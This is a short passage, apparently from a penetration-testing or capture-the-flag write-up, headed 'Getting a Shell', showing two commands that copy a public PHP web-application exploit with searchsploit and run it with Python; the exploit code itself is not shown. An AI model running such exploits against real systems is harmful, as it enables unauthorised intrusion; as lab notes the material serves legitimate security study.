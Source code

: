 # Getting a Shell

```bash
$ searchsploit -m php/webapps/48800.py
```

```bash
$ python3 48800.py
```

![[Pasted image 20211214201812.png]]

